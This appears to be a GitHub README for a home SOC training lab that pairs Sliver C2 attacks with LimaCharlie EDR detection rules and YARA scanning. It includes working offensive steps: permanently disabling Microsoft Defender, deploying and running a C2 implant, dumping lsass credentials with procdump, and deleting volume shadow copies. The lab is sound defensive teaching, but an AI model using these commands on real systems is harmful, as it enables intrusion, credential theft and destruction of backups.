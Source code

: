 # SOC-MOCK
![Image](.png)
## Objective 
This project aimed to build a realistic Security Operations Center (SOC) training environment focusing on practical skills for detecting and responding to cyber threats.
- Advanced threat detection tools like Sysmon and LimaCharlie EDR were deployed for real-time analysis
- Adversary techniques were simulated, and threat responses were automated to stay ahead of potential risks
- YARA rules were integrated to enhance malware detection capabilities
<br><br>

## Components

- **VirtualBox**: Used for creating and managing virtual machines
- **Ubuntu Server VM**: Used to deploy the Sliver C2 framework, which acts as a simulated attacker tool
- **Windows VM**: Used as victim endpoint device
- **LimaCharlie EDR**: An EDR platform used to collect, analyze logs and investigate telemetry from the Windows VM
- **Sliver C2**: A simulated attacker tool used to create a Command & Control (C2) server on the Ubuntu VM
- **YARA Rules**: Specific sets of instructions used to identify malware based on patterns
- **Sysmon**: Windows system service used to monitor and log system activity to the event log
- **VirusTotal**: A service for analyzing suspicious files and URLs for malware
- **NAT Network**: Configured in VirtualBox for network simulation

<details>
  <summary><h2><b>Section 1: Setting up the Virtual Environment</b></h2></summary>
  This section will guide through the setup of virtual environment using VirtualBox (If you want you, can use VMware as well). Configure a NAT network and install two virtual machines – one for Ubuntu Server and another for a Windows 10. <br><br>

   **1: Download and setup Virtualbox**:  
    You can download Virtualbox from here. Setup is pretty straightforward
    <br><br>
   **2: Create a New VM for Windows 10**:  
   Next, set up a new virtual machine in VirtualBox for Windows 10.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 50 GB
    <br><br>
    
   **3: Create a New VM for Ubuntu Server**:  
    Now, set up a new virtual machine in VirtualBox for Ubuntu Server.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 20 GB
   - During OS install, **leave defaults as is**
  ![Image](https://imgur.com/GDfOZmg.png)
    <br><br>
  - After installation it should look like this:
  ![Image](https://imgur.com/9VNGxVp.png)
    <br><br>
       
   **4: Configure Windows VM**:  
    Permanently disable Microsoft Defender so it doesn’t interfere with the fun stuff we’re planning. This is pretty tricky (especially in Windows 11) as Defender will turn itself back on.
1. Disable Tamper Protection
  - Go to "Windows Security"
  - Click “Virus & threat protection”
  - Under “Virus & threat protection settings” click “Manage settings”
  - Toggle OFF the “Tamper Protection” switch. When prompted, click “Yes”
![Image](https://imgur.com/iTuPTwi.png)
  - Toggle every other option OFF as well
2. Permanently Disable Defender via Group Policy Editor
  - Click the “Start” menu icon
  - Type “cmd” into the search bar within the Start Menu
  - Right+Click “Command Prompt” and click “Run as administrator”
  - Run the following command
```
gpedit.msc
```
  - Inside the Local Group Policy Editor
  - Click Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus
  - Double-click “Turn off Microsoft Defender Antivirus”
  - Select “Enabled” (If you enable this policy setting, Defender doesn't run, and will not scan for malware or other potentially unwanted software)
  - Click "Apply"
![Image](https://imgur.com/9bsP5Lf.png)
3. Permanently Disable Defender via Registry
  - From the same administrative cmd, copy/paste this command and press Enter
<br>

```
REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

</br>

4. Prepare to boot into Safe Mode to disable all Defender services
  - Click the “Start” menu icon
  - Type “msconfig” into the search bar
  - Go to “Boot” tab and select “Boot Options”
  - Check the box for “Safe boot” and “Minimal”
![Image](https://imgur.com/0K1OBWq.png)
  - Click Apply and OK
  - System will restart into Safe Mode

5. Now, in Safe Mode, we’ll disable some services via the Registry
  - Press the “Win + R"
  - Type “regedit” into the search bar and hit Enter
  - For each of the following registry locations, browse to the key, find the “Start” value, and change it to "4"
![Image](https://imgur.com/IWskQZt.png)
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sense
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdBoot
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDefend
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisDrv
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisSvc
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdFilter

6. Leave Safe Mode the same way we got into it
  - Uncheck the box for “Safe boot”
  - System will restart into normal desktop environment, hopefully Defender-free
    <br><br>
</details>

<details>
  <summary><h2><b>Section 2: Install Sysmon in Windows VM</b></h2></summary>

This is actually optional in this project, but it’s a must-have analyst tool for getting very granular telemetry on your Windows endpoint. You can read more about it
[here](https://www.learn.microsoft.com/en-us/sysinternals/downloads/sysmon/). 

1. **Launch an Administrative PowerShell console for the following commands:**

- Click the “Start” menu icon
- Type “Powershell” into the search bar within the Start Menu
- Click “Windows PowerShell” and click “Run as administrator”

2. **Download Sysmon with the following command:**
```
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
```
3. **Unzip sysmon.zip**
```
Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
```
4. **Download SwiftOnSecurity’s Sysmon config**
```
Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
5. **Install Sysmon with Swift’s config**
```
C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
![Image](https://imgur.com/eUuEwgD.png)

6. **Check Sysmon64 service is installed and running**
```
Get-Service sysmon64
```
7. **Check for the presence of Sysmon Event Logs**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 10
```
  <br><br>
</details>

<details>
  <summary><h2><b>Section 3: Install LimaCharlie EDR on Windows VM</b></h2></summary>

  [LimaCharlie](https://www.limacharlie.io/) 
  is a very powerful SecOps Cloud Platform. It not only comes with a cross-platform EDR agent, but also handles all of the log shipping/ingestion and has a threat detection engine. In free version you can create for up to two systems which is great for projects like this.

1. **Create a free LimaCharlie account**
- LimaCharlie will ask you a few questions about your role. Answer however you like.

2. **Create an organization**

Name: *Anything*

Data Residency Region: *Closest to you*

Demo Configuration Enabled: *Disabled*

Template: *Extended Detection & Response Standard*
![Image](https://imgur.com/T1INyuQ.png)

3. **Click "Add a Sensor"**

- Select Windows
- Provide a description such as: Windows VM - Lab
- Click Create
- Select the Installation Key we just created
![Image](https://imgur.com/ba1VqUg.png)
- Select the "x86-64 (.exe)" sensor
![Image](https://imgur.com/mP2CI8j.png)



- In Windows VM, open an Administrative PowerShell and paste the following commands:
```
cd C:\Users\User\Downloads
```
```
Invoke-WebRequest -Uri https://downloads.limacharlie.io/sensor/windows/64 -Outfile C:\Users\User\Downloads\lc_sensor.exe
```
![Image](https://imgur.com/LGFmfRt.png)
- Shift into a standard admin cmd

- Copy the install command provided by LimaCharlie which contains the installation key. Paste this command into your open terminal.
![Image](https://imgur.com/D0UvIR4.png)

- If everything worked correctly, in the LimaCharlie web UI you should see the sensor reporting in


4. **Configure LimaCharlie to also ship the Sysmon event logs alongside its own EDR telemetry**

- In the left-side menu, click “Artifact Collection”
- Next to “Artifact Collection Rules” click “Add Rule”
```
Name: windows-sysmon-logs
Platforms: Windows
Path Pattern: wel://Microsoft-Windows-Sysmon/Operational:*
Retention Period: 10
```
- Click “Save Rule”
![Image](https://imgur.com/VgxX27Q.png)

LimaCharlie will now start shipping Sysmon logs which provide a wealth of EDR-like telemetry, some of which is redundant to LC’s own telemetry, but Sysmon is still a very power visibility tool that runs well alongside any EDR agent.

The other reason we are ingesting Sysmon logs is that the built-in Sigma rules we previously enabled largely depend on Sysmon logs as that is what most of them were written for.

> Now would be a good time to Snapshot your Windows VM
</details>

<details>
  <summary><h2><b>Section 4: Setup Attack System </b></h2></summary>
  I recommend using an SSH client to access the Ubuntu VM so that you can easily copy/paste commands.

1. **Open your CLI**

```
ssh username@[Linux_VM_IP]
```

2. **Now, from within this new SSH session, proceed with the following instructions to setup our attacker C2 server. First, gain access to the root shell to make life easier.**

```
sudo su
```

3. **Run the following commands to download Sliver, a Command & Control (C2) framework by BishopFox. I recommend copy/pasting the entire block as there is line-wrapping occurring.**

- Download Sliver Linux server binary
```
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
```
- Make it executable
```
chmod +x /usr/local/bin/sliver-server
```
- install mingw-w64 for additional capabilities
```
apt install -y mingw-w64
```
- Create our future working directory
```
mkdir -p /opt/sliver
```
![Image](https://imgur.com/LCfhKok.png)

> Explore the LimaCharlie web interface to learn more about what it can do!
</details>
<details>
  <summary><h2><b>Section 5: Generate the Command & Control payload </b></h2></summary>
  Either from your SSH session or directly from your Ubuntu Server, take the following actions:
  <br></br>

  1. **Access root shell and change dir to Sliver install**

```
sudo su
cd /opt/sliver
```

  2. **Launch Sliver server**

```
sliver-server
```
![Image](https://imgur.com/8DsuXyT.png)
  3. **Generate C2 session payload. Use your Linux VM’s IP address**
```
generate --http [Linux_VM_IP] --save /opt/sliver
```
![Image](https://imgur.com/EN108X6.png)
  4. **Confirm the new implant configuration**
```
implants
```
  5. **Now we have a C2 payload we can drop onto our Windows VM. Exit Sliver for now.**
```
exit
```

  6. **To easily download the C2 payload from the Linux VM to the Windows VM, use this python trick that spins up a temp web server**
```
cd /opt/sliver
python3 -m http.server 80
```
![Image](https://imgur.com/gQG90re.png)
  7. **Switch to the Windows VM and launch an Admin PowerShell console to download the implant from Ubuntu server**
```
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
```
![Image](https://imgur.com/iU5lry0.png)
> Now would be a good time to snapshot your Windows VM, before we execute the malware.

</details>
<details>
  <summary><h2><b>Section 6: Start Command & Control Session  </b></h2></summary>

1. **Now that the payload is on the Windows VM, switch back to the Linux VM SSH session and enable the Sliver HTTP server to catch the callback**

- Terminate the python web server by pressing "Ctrl + C"
- Now, relaunch Sliver
```
sliver-server
```
- Start the Sliver HTTP listener
```
http
```
![Image](https://imgur.com/2RqMkmX.png)
- If you get an error starting the HTTP listener, reboot the VM

2. **Return to the Windows VM and execute the C2 payload from its download location using the same admin PowerShell prompt**
```
C:\Users\User\Downloads\<your_C2-implant>.exe
```
![Image](https://imgur.com/N8Z5Xo1.png)
3. **Within a few moments, you should see your session check in on the Sliver server**
![Image](https://imgur.com/1Rs38Xn.png)
4. **Verify your session in Sliver, and note its Session ID**
```
sessions
```
5. **To interact with your new C2 session, type the following command into the Sliver shell**
```
use [session_id]
```

> c0ngratulations! you pwned your Windows VM
6. **Now, run a few basic commands**

- To get info about the session
```
info
```
- Find out the user and learn his privileges
```
whoami
```
![Image](https://imgur.com/IO9bJZi.png)
```
getprivs
```
![Image](https://imgur.com/Krpmh17.png)
> If your implant was properly run with Admin rights, you’ll notice you have a few privileges that make further attack activity much easier, such as “SeDebugPrivilege” — if you don't see these privileges, make sure you ran the implant from an Admin command prompt
- Identify implant’s working dir
```
pwd
```
- Examine network connections occurring on the remote system
```
netstat
```
- Identify running processes on the remote system
```
ps -T
```
![Image](https://imgur.com/AIMklUP.png)
> Notice that Sliver highlights its own process in green and any defensive tools in red. This is how attackers become aware of what security products a victim system using.
  </details>

<details>
  <summary><h2><b>Section 7: Observe EDR Telemetry</b></h2></summary>

1. **Hop into the LimaCharlie web UI and check out some basic features**

- Click “Sensors” on left menu

- Click your active Windows sensor


- On the new left-side menu for this sensor, click “Processes”


> Explore what is returned in the process tree. Hover over some of the icons to see what they represent

![Image](https://imgur.com/GZ9FZm0.png)
Knowing common processes on a system is very important. As professionals say at SANS, *“you must know normal before you can find evil”* Check out this [“Hunt Evil”](https://www.sans.org/posters/hunt-evil/) poster from SANS.


2. **One of the easiest ways to spot unusual processes is to simply look for ones that are NOT signed**
- The C2 implant shows as not signed, and is also active on the network.

![Image](https://imgur.com/2frmDNQ.png)

- Notice how quickly we are able to identify the destination IP this process is communicating with.

3. **Now click the “Network” tab on the left-side menu**

- Explore what is returned in the network list. "Ctrl+F" to search for your implant name

4. **Now click the “File System” tab on the left-side menu**

- Browse to the location we know our implant to be running from

![Image](assets/3.gif)

5. **Inspect the hash of the suspicious executable by scanning it with VirusTotal**

> “*Item not found*” on VirusTotal doesn't mean that this file is innocent, it just might not that scanned before. This makes sense because you just generated this payload, so of course it’s not likely to be seen by VirusTotal before. So, if you already suspect a file to be possible malware, but VirusTotal has never seen it before, trust your instincts. This actually makes a file even more suspicious because nearly everything has been seen by VirusTotal, so your sample may have been custom-crafted/targeted.

6. **Click “Timeline” on the left-side menu of our sensor. This is a real-time view of EDR telemetry + event logs streaming from this system**

- Read about the various EDR events in the LimaCharlie docs.

- Filter your timeline with known IOCs (indicators of compromise) such as the name of your implant or the known C2 IP address

- If you scroll back far enough, should be able to find the moment your implant was created on the system, and when it was launched shortly after, and the network connections it created immediately after

![Image](https://imgur.com/pV7Z8qm.png)

7. **Examine the other events related to your implant process** 

- you’ll see it is responsible for other events such as “SENSITIVE_PROCESS_ACCESS” from when you enumerated your privileges in an earlier step. This particular event will be useful later on when you will craft your first detection rule

> I recommend spending more time exploring LimaCharlie telemetry to familiarize yourself not only with the known-bad events, but also the abundance of “normal” things happening on your “idle” Windows VM.

  </details>

<details>
  <summary><h2><b>Section 8: Wear the Black Hat  </b></h2></summary>

Go back into Sliver C2 session and do some shady stuff that you would be able to detect.

1. **Drop into a C2 session on your victim**

2. **Run the following commands within the Sliver session on your victim host**

- First, we need to check our privileges to make sure we can perform privileged actions on the host
```
getprivs
```
- A powerful command to check privilege for *SeDebugPrivilege* which opens the door for many things. If you’ve got that, we’re good. If you don’t, you need to relaunch your C2 implant with administrative rights

- Next, do something adversaries love to do for stealing credentials on a system — *dump the lsass.exe process from memory.* Read more about this technique [here](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)
```
procdump -n lsass.exe -s lsass.dmp
```
This will dump the remote process from memory, and save it locally on your Sliver C2 server.

> NOTE: This will fail if you did not launch your C2 payload with admin rights on the Windows system. Even if it fails it will generate telemetry need.

2. **Now Let’s Detect It**

Now, switch over to LimaCharlie to find the relevant telemetry

- Since *lsass.exe* is a known sensitive process often targeted by credential dumping tools, any good EDR will generate events for this

- Go to "Timeline" of your Windows VM sensor and use the “Event Type Filters” to filter for “SENSITIVE_PROCESS_ACCESS” events.
There will likely be many of these, but pick any one of them as there isn’t much else on this system that will be legitimately accessing "lsass"
![Image](https://imgur.com/Su8gSsG.png)


- Now that we know what the event looks like when credential access occurred, we have what we need to craft a detection & response (D&R) rule that would alert anytime this activity occurs
![Image](https://imgur.com/mNWqOEt.png)
- Click the button in the screenshot to begin building a detection rule based on this event

- In the “Detect” section of the new rule, remove all contents and replace them with this
```
event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe
```
![Image](https://imgur.com/oxRKaBy.png)
- We’re specifying that this detection should only look at *"SENSITIVE_PROCESS_ACCESS"* events where the victim or target process ends with "lsass.exe"

- In the “Respond” section of the new rule, remove all contents and replace them with this
```
action: report
name: LSASS access
```
- We’re telling LimaCharlie to simply generate a detection “report” anytime this detection occurs. We could ultimately tell this rule to do all sorts of things, like terminate process chain, etc.

- Now let’s test our rule against the event we built it for. Lucky for us, LimaCharlie carried over that event it provides a quick and easy way to test the D&R logic. Click “Target Event” below the D&R rule you just wrote. Here you will see the raw event we observed in the timeline earlier

- Scroll to the bottom of the raw event and click “Test Event” to see if our detection would work against this event.
![Image](https://imgur.com/W00C0rY.png)
- Notice that we have a “Match” and the D&R engine tells you exactly what it matched on.
![Image](https://imgur.com/mM1Vae5.png)

- Scroll back up and click “Save Rule” and give it the name “LSASS Accessed” and be sure it is enabled

3. **Return to your Sliver server console, back into your C2 session, and rerun same "procdump command"**

- After rerunning the procdump command, go to the “Detections” tab on the LimaCharlie main left-side menu.
![Image](https://imgur.com/buIAvmX.png)

> Congratulations! You’ve just detected a threat with your own detection signature! Expand a detection to see the raw event

![Image](https://imgur.com/FZFn6xt.png)

- Notice you can also go straight to the timeline where this event occurred by clicking “View Event Timeline” from the Detection entry
  </details>

  <details>
  <summary><h2><b>Section 9: Blocking Attacks</b></h2></summary>
Wouldn’t it be great if we could block the threat rather than just generate an alert?

Craft a rule that would be very effective at disrupting a ransomware attack by looking for a predictable action that ransomware tends to take: [Deletion of Volume Shadow Copies](https://redcanary.com/blog/its-all-fun-and-games-until-ransomware-deletes-the-shadow-copies/)

> Why This Rule? "Volume Shadow Copies" provide a convenient way to restore individual files or even an entire file system to a previous state which makes it a very attractive option for recovering from a ransomware attack. For this reason, it’s become very predictable that one of the first signs of an impending ransomware attack is the "deletion of volume shadow copies".

A basic command that would accomplish this
```
vssadmin delete shadows /all
```

1. **Get back into Sliver C2 shell**

> If you have issues reestablishing your HTTP listener, try rebooting your Ubuntu system

In your Sliver C2 shell on the victim, run this command:
```
shell
```
- When prompted with “This action is bad OPSEC, are you an adult?” type "Yes" if you are an adult, "No" if you are not :) and hit enter

In the new System shell, run the following command:
```
vssadmin delete shadows /all
```
- The output is not important as there may or not be Volume Shadow Copies available on the VM to be deleted, but running the command is sufficient to generate the telemetry we need

Run this command to verify we still have an active system shell:
```
whoami
```
2. **Browse over to LimaCharlie’s detection tab to see if default Sigma rules picked up on our noise**
![Image](https://imgur.com/U0tHpxW.png)

- Click to expand the detection and examine all of the metadata contained within the detection itself. One of the great things about Sigma rules is they are enriched with references to help understand why the detection exists in the first place

- Click "View Event Timeline" to see the raw event that generated this detection
![Image](https://imgur.com/v8rFY9i.png)
- Craft a Detection & Response (D&R) rule from this event
![Image](https://imgur.com/Cjq9dBC.png)

From this D&R rule template, we can begin crafting our response action that will take place when this activity is observed. Add the following *"Response"* rule to the Respond section:
```
- action: report
  name: vss_deletion_kill_it
- action: task
  command:
    - deny_tree
    - <<routing/parent>>
```
- The “action: report” section simply creates a Detection report to the “Detections” tab

- The “action: task” section is what is responsible for killing the parent process responsible with "deny_tree" for the *vssadmin delete shadows /all command*

- Save your rule with the following name: vss_deletion_kill_it

3. **Test it**

Now return to Sliver C2 session, and rerun the command and see what happens.

Run the command to delete volume shadows:
```
vssadmin delete shadows /all
```
- The command should succeed, but the action of running the command is what will trigger our D&R rule
![Image](https://imgur.com/a4Dhfxc.png)

Now, to test if our D&R rule properly terminated the parent process, check to see if you still have an active system shell by rerunning the *"whoami"* command:
```
whoami
```
- If D&R rule worked successfully, the system shell will hang and fail to return anything from the *whoami* command, because the parent process was terminated


> Note, you also may receive output such as “Shell Exited” — this is functionally the same thing as it hanging and providing no output. This is effective because in a real ransomware scenario, the parent process is likely the ransomware payload or lateral movement tool that would be terminated in this case
  </details>

  <details>
  <summary><h2><b>Section 10: Automated YARA Scanning</b></h2></summary>
The goal of this section is to take advantage of a more advanced capability of any good EDR sensor, to automatically scan files or processes for the presence of malware based on a YARA signature.

> What is YARA? YARA is a tool primarily used for identifying and classifying malware based on textual or binary patterns. It allows researchers and security professionals to craft rules that describe unique characteristics of specific malware families or malicious behaviors. These rules can then be applied to files, processes, or even network traffic to detect potential threats. When analyzing a compromised system, YARA helps in filtering through large amounts of data to find malicious artifacts by matching them against a set of predefined rules. This ability to create customized detection signatures is particularly useful in threat hunting and incident response, enabling fast identification of known and even previously unknown malicious elements.

There are many free and open source YARA scanners and rulesets. You can read more about YARA from [VirusTotal](https://virustotal.github.io/yara/) or explore one of the many open source [YARA rulesets](https://github.com/Yara-Rules/rules).

Prepare LimaCharlie for detecting certain file system and process activities in order to trigger YARA scans.

1. **Add a YARA signature for the Sliver C2 payload**

Since we’re dealing with the Sliver C2 payload, we can be more targeted in by using a signature specifically looking for [Sliver](https://sliver.sh/docs?name=Getting+Started). I've used UK National Cyber Security Centre [publication](https://www.ncsc.gov.uk/files/Advisory%20Further%20TTPs%20associated%20with%20SVR%20cyber%20actors.pdf) on Sliver, including YARA signatures and other useful detections.

![Image](https://imgur.com/klrX5b4.png)
- Under “Automation” > “YARA Rules”, Click Add Yara Rule

![Image](https://imgur.com/UDm7nMA.png)
- Name the rule as "sliver"
- Copy and paste the contents from the code snippet of the YARA Rules section of the [publication](https://www.ncsc.gov.uk/files/Advisory%20Further%20TTPs%20associated%20with%20SVR%20cyber%20actors.pdf) into the Rule block
- Click “Save Rule”

Now create one more YARA rule with a name "sliver-process" and Copy/Paste this:
```
rule sliver_strings {
  meta:
    author = "You"
    description = "Detects Sliver Windows and Linux implants based on obvious strings"
  strings:
    $p1 = "/sliver/"
    $p2 = "sliverpb"
  condition:
    all of ($p*)
}
```

2. **Create D&R rules that will generate alerts whenever a YARA detection occurs**

- Go to “Automation” > “D&R Rules”

- Create a new rule

In the Detect block, paste the following:
```
event: YARA_DETECTION
op: and
rules:
  - not: true
    op: exists
    path: event/PROCESS/*
  - op: exists
    path: event/RULE_NAME
```
> Notice that we’re detecting on YARA detections not involving a PROCESS object, that’ll be its own rule shortly.

In the Respond block, paste the following:
```
- action: report
  name: YARA Detection {{ .event.RULE_NAME }}
- action: add tag
  tag: yara_detection
  ttl: 80000
```
- Save the rule and title it "YARA Detection"

Create another rule and in the Detect block, paste the following:
```
event: YARA_DETECTION
op: and
rules:
  - op: exists
    path: event/RULE_NAME
  - op: exists
    path: event/PROCESS/*
```
> Notice that this detection is looking for YARA Detections specifically involving a PROCESS object.

In the Respond block, paste the following:
```
- action: report
  name: YARA Detection in Memory {{ .event.RULE_NAME }}
- action: add tag
  tag: yara_detection_memory
  ttl: 80000
```
- Save the rule and title it "YARA Detection in Memory"

3. **Test the new YARA signature**

Since we already know we have a Sliver implant sitting in the Downloads folder of our Windows VM, we can easily test our signature by initiating a manual YARA scan using the EDR sensor.

- In LimaCharlie, browse to the “Sensors List” and click on our Windows VM sensor


Access the EDR Sensor Console which allows us to run sensor commands against this endpoint


Go to "Console" and run the following command to kick off a manual YARA scan of our Sliver payload:
```
yara_scan hive://yara/sliver -f C:\Users\User\Downloads\[payload_name].exe
```
> Replace [payload_name] with your actual payload name

![Image](https://imgur.com/SsFumfj.png)
- Hit enter
- Now, also confirm that you have a new Detection on the “Detections” screen

4. **Automatically YARA scan downloaded EXEs**

- Browse to “Automation” > “D&R Rules”
- Create a new rule

In the Detect block, paste the following:
```
event: NEW_DOCUMENT
op: and
rules:
  - op: starts with
    path: event/FILE_PATH
    value: C:\Users\
  - op: contains
    path: event/FILE_PATH
    value: \Downloads\
  - op: ends with
    path: event/FILE_PATH
    value: .exe
```
> Notice that this detection is simply looking for NEW .exe files to appear in any users Downloads directory

In the Respond block, paste the following:
```
- action: report
  name: EXE dropped in Downloads directory
- action: task
  command: >-
    yara_scan hive://yara/sliver -f "{{ .event.FILE_PATH
    }}"
  investigation: Yara Scan Exe
  suppression:
    is_global: false
    keys:
      - '{{ .event.FILE_PATH }}'
      - Yara Scan Exe
    max_count: 1
    period: 1m
```
> This response action generates an alert for the EXE creation, but more importantly, kicks off a YARA scan using the Sliver signature against the newly created EXE.

- Save the rule and title it "YARA Scan Downloaded .exe"

5. **Automatically YARA scan processes launched from Downloads directory**

- Browse to “Automation” > “D&R Rules”
- Create a new rule

In the Detect block, paste the following:
```
event: NEW_PROCESS
op: and
rules:
  - op: starts with
    path: event/FILE_PATH
    value: C:\Users\
  - op: contains
    path: event/FILE_PATH
    value: \Downloads\
```
> This rule is matching any process that is launched from a user Downloads directory

In the Respond block, paste the following:
```
- action: report
  name: Execution from Downloads directory
- action: task
  command: yara_scan hive://yara/sliver-process --pid "{{ .event.PROCESS_ID }}"
  investigation: Yara Scan Process
  suppression:
    is_global: false
    keys:
      - '{{ .event.PROCESS_ID }}'
      - Yara Scan Process
    max_count: 1
    period: 1m
```
> Notice in this rule, we’re no longer scanning the "FILE_PATH", but the actual running process by specifying its "PROCESS_ID". We are also now using "sliver-process" rule

- Save the rule and title it "YARA Scan Process Launched from Downloads"

6. **Trigger the new rules**

Scanning New EXEs in Downloads dir. You don't need to re-download Sliver payload, moving it another dir and putting back is enough to trigger.
![Image](https://imgur.com/FBU0KaI.png)
Run the following PowerShell command to move your Sliver payload from Downloads to Documents:
```
Move-Item -Path C:\Users\User\Downloads\[payload_name].exe -Destination C:\Users\User\Documents\[payload_name].exe
```
Now, put it back to generate the "NEW_DOCUMENT" event for an EXE being dropped into the Downloads folder
```
Move-Item -Path C:\Users\User\Documents\[payload_name].exe -Destination C:\Users\User\Downloads\[payload_name].exe
```
> Replace [payload_name] with your actual payload name

Head over to your Detections tab and see what happened. It may take a moment.
![Image](https://imgur.com/yN7iGRF.png)
- As you can see an initial alert for EXE dropped in Downloads directory followed shortly by a YARA detection once the scan kicked off and found Sliver inside the EXE

7. **Scanning processes launched from Downloads**

Now test "NEW_PROCESS" rule to scan running processes launched from Downloads dir.
![Image](https://imgur.com/dbznaGt.png)
- Launch an Administrative PowerShell prompt

First, check for any existing instances of Sliver C2 and kill it
```
Get-Process [payload_name] | Stop-Process
```
Execute your Sliver payload to create the "NEW_PROCESS" event we need to trigger the scanning of a process launched from the Downloads dir:
```
C:\Users\User\Downloads\[payload_name].exe
```
Head over to your Detections tab and see what happened!
![Image](https://imgur.com/ioH03cw.png)
- You should see an initial alert for Execution from Downloads directory followed shortly by a YARA detection in Memory once the scan kicked off and found Sliver inside the EXE
```
✄╔═╦╦═╦╦╗╔═╦═╦╦╦══╦╗╔╦═╦══╗╔══╦══╗
✄╚╗║║║║║║║╔╣╬║║║══╣╚╝║╦╩╗╗║╚║║╩╗╔╝
✄╔╩╗║║║║║║╚╣╗╣║╠══║╔╗║╩╦╩╝║╔║║╗║║
✄╚══╩═╩═╝╚═╩╩╩═╩══╩╝╚╩═╩══╝╚══╝╚╝
```
```
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
─████████──████████─██████████████─██████──██████────██████──────────██████─██████████████─██████████─██████─────────██████████████─████████████──────██████████─██████████████─██████─
─██░░░░██──██░░░░██─██░░░░░░░░░░██─██░░██──██░░██────██░░██████████──██░░██─██░░░░░░░░░░██─██░░░░░░██─██░░██─────────██░░░░░░░░░░██─██░░░░░░░░████────██░░░░░░██─██░░░░░░░░░░██─██░░██─
─████░░██──██░░████─██░░██████░░██─██░░██──██░░██────██░░░░░░░░░░██──██░░██─██░░██████░░██─████░░████─██░░██─────────██░░██████████─██░░████░░░░██────████░░████─██████░░██████─██░░██─
───██░░░░██░░░░██───██░░██──██░░██─██░░██──██░░██────██░░██████░░██──██░░██─██░░██──██░░██───██░░██───██░░██─────────██░░██─────────██░░██──██░░██──────██░░██───────██░░██─────██░░██─
───████░░░░░░████───██░░██──██░░██─██░░██──██░░██────██░░██──██░░██──██░░██─██░░██████░░██───██░░██───██░░██─────────██░░██████████─██░░██──██░░██──────██░░██───────██░░██─────██░░██─
─────████░░████─────██░░██──██░░██─██░░██──██░░██────██░░██──██░░██──██░░██─██░░░░░░░░░░██───██░░██───██░░██─────────██░░░░░░░░░░██─██░░██──██░░██──────██░░██───────██░░██─────██░░██─
───────██░░██───────██░░██──██░░██─██░░██──██░░██────██░░██──██░░██──██░░██─██░░██████░░██───██░░██───██░░██─────────██░░██████████─██░░██──██░░██──────██░░██───────██░░██─────██████─
───────██░░██───────██░░██──██░░██─██░░██──██░░██────██░░██──██░░██████░░██─██░░██──██░░██───██░░██───██░░██─────────██░░██─────────██░░██──██░░██──────██░░██───────██░░██────────────
───────██░░██───────██░░██████░░██─██░░██████░░██────██░░██──██░░░░░░░░░░██─██░░██──██░░██─████░░████─██░░██████████─██░░██████████─██░░████░░░░██────████░░████─────██░░██─────██████─
───────██░░██───────██░░░░░░░░░░██─██░░░░░░░░░░██────██░░██──██████████░░██─██░░██──██░░██─██░░░░░░██─██░░░░░░░░░░██─██░░░░░░░░░░██─██░░░░░░░░████────██░░░░░░██─────██░░██─────██░░██─
───────██████───────██████████████─██████████████────██████──────────██████─██████──██████─██████████─██████████████─██████████████─████████████──────██████████─────██████─────██████─
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
```
░▀▄─────▄▀░▐█▀▀█▌░█░█──░██▄─░█▌─░▄█▀▄─░▐██░██───░▐█▀▀░▐█▀█▄──░▐██░█▀█▀█░█ 
──░▀▄─▄▀──░▐█▄░█▌░█░█──░▐█░█░█─░▐█▄▄▐█─░█▌░██───░▐█▀▀░▐█▌▐█───░█▌──░█───▀ 
────░█────░▐██▄█▌░▀▄▀──░██─░██▌░▐█─░▐█░▐██░██▄▄█░▐█▄▄░▐█▄█▀──░▐██─░▄█▄─░▄ 

```
  </details>